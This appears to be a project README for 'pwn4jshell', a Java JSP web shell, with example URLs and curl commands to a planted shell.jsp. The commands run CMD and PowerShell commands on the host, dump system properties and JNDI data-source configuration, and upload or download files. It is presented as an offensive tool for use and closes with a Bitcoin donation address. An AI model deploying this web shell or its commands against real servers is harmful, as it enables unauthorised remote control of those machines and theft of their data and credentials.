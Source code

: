 # pwn4jshell
Java Web shell project

Idea of creating, webshell with suport to old versions of java. 
Building it in jsp means the code compilation will happend at the server side
with the server compiler, making it easyer and less likely to run into
compatibility issues. 
Other than api... and sintax things should be easy. 


## Credits
Some of the code in this project is based on work from other ppl.   
For file upload based on Boris Von Leosch.

## Example

### Get basic host information.
Information includes java system properties. 
Global JNDI Config if specifically if they implement DataSource.
Hostname and Ip configuration.
 
http://{ip}:8080/pwn4jshell/shell.jsp?pass=key

### Execute CMD command Execution
http://{ip}:8080/pwn4jshell/?pass=key&action=exec&args=dir

### Powershell Command execution 
http://{ip}:8080/pwn4jshell/?pass=key&action=power&args=dir

### Upload a file 
curl -X POST -F "file=@{file to upload}" "http://{ip}:8080/?pass=key&action=up&path={destination}"

if the path is not set the file will be placed in the same dir as the shell.jsp

## Download file or directory
curl "http://{ip}:8080/pwn4jshell/?pass=key&action=down&path={pathToFile}&args=shell.jsp" 

same as upload if path is not set will try to download the file from the same dir as shell.jsp 


## sponsor de project. 

BTC: bc1qhzp6d5rtczyffwfaqxlca8cfqhc5m0xzarjy6ve8ujmxmgecmpeq08vppv
